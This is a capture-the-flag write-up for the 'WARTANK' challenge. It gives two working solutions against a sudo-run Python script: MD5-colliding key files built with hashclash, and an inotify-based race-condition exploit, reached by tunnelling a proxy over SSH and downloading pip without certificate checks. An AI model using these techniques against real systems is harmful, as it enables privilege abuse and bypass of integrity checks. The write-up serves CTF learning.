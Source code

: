 # WARTANK

## Intended solution

MD5 collisions are required to solve this challenge.
In order to create one, we can use the following tool:

https://github.com/cr-marcstevens/hashclash

To create a collision useful to us (the string `TNKK` must be contained in each of the two files) we can run the following commands:

```shell
echo -n "TNKK" > prefix.txt
../scripts/poc_no.sh prefix.txt
```

Now that we have the two colliding files we can provide them to the `startup.py` executable:


```shell
echo "VE5LS0k2w1B0Lqxb74/E4iQdO+r++yQzfEMEDZRH0zEfyUfkK6m6yuC5Sz0c3/nnVl40dAlEnKLodtbC2ucCJZhUlTVceFA9MnBzLYqFiibpLfW/a0xNN7U9QmFkbeZoBJgNOYYosCyHSElXnfZA56lJFI7/6DsIVKHOfybyLeg=" | base64 -d > /tmp/key1
echo "VE5LS0k2w1B0L6xb74/E4iQdO+r++yQzfEMEDZRH0zEfyUfkK6m6yuC5Sz0c3/nnVl40dAlEnKLodtbC2ucCJZhUlTVceFA9Mm9zLYqFiibpLfW/a0xNN7U9QmFkbeZoBJgNOYYosCyHSElXnfZA56lJFI7/6DsIVKHOfybyLeg=" | base64 -d > /tmp/key2
sudo /usr/bin/python3 /home/wartank/startup.py --key1 /tmp/key1 --key2 /tmp/key2 --action remote_control
```

## Alternative solution
### STEP 1: burp
open burp (or an http proxy in general) on your pc, and make it listen on 8080

### STEP 2: expose burp IN the remote machine
```bash
ssh -R 8080:127.0.0.1:8080 wartank@[MACHINE_IP] -p 2225
```

### STEP 3: expose proxy globally in the remote machine and install pip / inotify
```bash
http_proxy="http://127.0.0.1:8080"
https_proxy="https://127.0.0.1:8080"
cd /dev/shm;
wget --no-check-certificate https://bootstrap.pypa.io/get-pip.py
HOME=/dev/shm
python3 get-pip.py --user --break-system-packages --trusted-host pypi.python.org --trusted-host pypi.org [...] #check the errors and allow 
python3 -m pip install --user --break-system-packages inotify --trusted-host pypi.python.org --trusted-host pypi.org [...]
```

### STEP 4: upload the exploiter
```python
import inotify.adapters

wf = '/dev/shm/test2'

tl = 10*1024*1024
with open('/dev/shm/test1','w')as f:
    f.write("TNKK")
    f.write("A"*tl)
tl -= 1

with open(wf, "w") as f:
    f.write("TNKK")
    f.write("A"*tl)
    f.flush()
    print("READY")
    i = inotify.adapters.Inotify()
    i.add_watch(wf)
    for event in i.event_gen(yield_nones=False):
        (_, type_names, path, filename) = event
        if type_names[0] == 'IN_CLOSE_NOWRITE':
            break
    f.write("A")
    f.flush()
print("DONE")
```

### STEP 5: run the program
```bash
cd /dev/shm
sudo /usr/bin/python3 /home/wartank/startup.py --key1 test1 --key2 test2 --action remote_control
```